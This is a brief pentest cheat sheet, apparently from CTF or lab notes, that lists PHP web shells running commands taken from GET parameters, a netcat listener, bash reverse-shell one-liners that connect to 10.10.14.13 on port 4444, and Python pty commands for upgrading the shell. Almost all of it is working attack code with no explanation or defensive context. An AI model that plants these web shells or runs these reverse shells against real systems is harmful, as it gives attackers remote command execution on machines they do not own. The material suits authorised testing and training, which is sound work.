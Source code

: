 # Linux  PHP > Rev Shell > Shell Upgrade Commands

##🐈‍⬛ PHP
```
<?php system($_GET['cmd']);?>

<?php
if (isset($_GET['command'])) {
    exec($_GET['command']);
}
?>
```

## ⭐ Attacker
```
nc -lvnp 4444
```
##🌙 Victim
```

/bin/bash -i 5<> /dev/tcp/10.10.14.13/4444 0<&5 1>&5 2>&5
bash -i >& /dev/tcp/10.10.14.13/4444 0>&1

```

## 🎃 Python Shell Upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

